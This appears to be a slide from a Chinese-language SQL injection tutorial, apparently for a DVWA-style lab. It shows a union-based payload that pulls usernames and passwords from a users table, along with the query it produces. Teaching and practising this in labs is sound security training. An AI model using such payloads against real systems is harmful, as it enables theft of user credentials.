

# SQL注入方法
四：尝试获取用户名、密码
猜测users表的字段为 user 和 password ，所以输入：1' union select user,password from users#进行查询：
实际执行的 Sql 语句是：
SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#`;